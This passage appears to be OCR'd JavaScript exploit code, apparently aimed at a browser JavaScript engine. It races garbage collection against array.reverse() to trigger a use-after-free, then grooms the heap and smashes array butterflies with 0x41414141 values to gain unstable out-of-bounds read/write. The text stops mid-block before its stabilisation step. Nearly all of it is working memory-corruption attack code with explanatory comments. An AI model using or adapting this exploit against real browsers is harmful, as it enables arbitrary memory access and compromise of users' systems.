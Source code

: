     // After this point we would stop seeing GCs happen enough to race :(
    const limit = 10;
    const butterfly_size = 32

    let save = [0, 0]

    for(let at = 0; at < limit; at++) {
        log("Trying to race GC and array.reverse() Attempt #"+(at+1));

        // Allocate the initial victim and target arrays
        let victim_arrays = new Array(2048);
        let groom  = new Array(2048);
        for (let i=0; i<victim_arrays.length; i++) {
            victim_arrays[i] = new Array(butterfly_size).fill(floatarr_magic)
            groom[i] = new Array(butterfly_size/2).fill(jsval_magic)
        }

        let vv = [];
        let  v = []

        // Allocate large strings to trigger the GC while calling reverse
        for (let i = 0; i < 506; i++) {
            for(let j = 0; j < 0x100; j++) {
                // Cause GCs to trigger while we are racing with reverse
                if (j == 0x44) { v.push(new String("B").repeat(0x10000*save.length/2)) }
                victim_arrays.reverse()
            }
        }

        for (let i = 0; i < victim_arrays.length; i++) {

            // Once we see we have replaced a free'd butterfly
            // fill the replacing array with 0x41414141... to smash rest
            // of UAF'ed butterflies

            // We know the size will be 506, because it will have been replaced with v
            // we were pushing into in the loop above

            if(victim_arrays[i].length == 506) {
                victim_arrays[i].fill(2261634.5098039214)
            }

            // Find the first butterfly we have smashed
            // this will be an unstable OOB r/w

            if(victim_arrays[i].length == 0x41414141) {
                oob_rw_unstable = victim_arrays[i];
                oob_rw_unstable_ind = i;
                break;
            }
        }

        // If we successfully found a smashed and still freed butterfly
        // use it to corrupt a non-freed butterfly for stability

        if(oob_rw_unstable) {
